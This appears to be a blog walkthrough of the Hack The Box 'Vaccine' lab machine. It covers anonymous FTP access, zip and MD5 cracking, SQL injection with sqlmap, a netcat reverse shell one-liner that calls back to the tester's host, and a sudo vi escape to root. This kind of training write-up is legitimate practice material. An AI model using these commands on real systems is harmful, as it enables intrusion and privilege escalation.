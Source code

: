 ```yaml
---
layout: post
title: 'HTB | Vaccine'
permalink: /ctf/htb/starting-point/vaccine/
---
```


# Enumeration
First we scan the IP:
{% highlight plain %}
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-30 13:27 EDT
Nmap scan report for 10.129.13.233
Host is up (0.056s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.16 seconds
{% endhighlight %}

---

# Explotation

### FTP
We would try to login with a default user in the ftp:
{% highlight bash %}
> ftp anonymous@10.129.13.233
Password: 
230 Login successful.
{% endhighlight %}

We can try to navigate throw the FTP:
{% highlight bash %}
ftp> ls
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
ftp> get backup.zip
ftp> cd ..
{% endhighlight %}
We can download the zip, but we can not navigate to other directory.

If we try to unzip but it ask for a password. We need to crack the password:
{% highlight bash %}
> sudo zip2john backup.zip > ziphash  
> sudo john ziphash --fork=10 -w=/usr/share/wordlists/rockyou.txt
    741852963
{% endhighlight %}

There we have logins to the webpage, but the password is encrypted.
We can see that is a md5 with **hash-identifier**. If we search it we can get the plain text: **qwerty789**.
Now we can login in the page.

### SQL
We can see that we have a table, if we search on it the url change:
{% highlight plain %}
http://10.129.13.233/dashboard.php?search=
{% endhighlight %}

It seems to have a <a href="{{ "/notes/databases/sql/" | prepend: site.baseurl }}">SQLi</a>, so we can try to use **sqlpmap**:
{% highlight bash %}
sqlmap -r req
{% endhighlight %}
Where **req**:
{% highlight plain %}
GET /dashboard.php?search=a HTTP/1.1
Host: 10.129.13.233
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.129.13.233/dashboard.php
Connection: close
Cookie: PHPSESSID=05ndh3sf35jpa3l93oj9afdlgf
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
{% endhighlight %}

We check that it has a SQLi, then we can start a reverse shell:
{% highlight bash %}
sqlmap -r req --os-shell
{% endhighlight %}
We should start a reverse shell in the **os-shell>** to more accessibility. We will open a port in our host and send this command on **Vaccine**:
{% highlight bash %}
> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.15.167 9000 >/tmp/f
{% endhighlight %}

---

# Privilage Escalation
We can go to **/var/www/html** and search for credentials with:
{% highlight bash %}
> cat * | grep pass
{% endhighlight %}
We can see the credentials: **postgres:P@s5w0rd!**. Now we can try:
{% highlight bash %}
> script /dev/null -c bash # To get a better shell
> sudo -l
    User postgres may run the following commands on vaccine:
        (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
{% endhighlight %}

Now, we will execute vi.
{% highlight bash %}
> sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
{% endhighlight %}
Afterwards, we execute:
{% highlight bash %}
:!/bin/bash
{% endhighlight %}
And now we are root.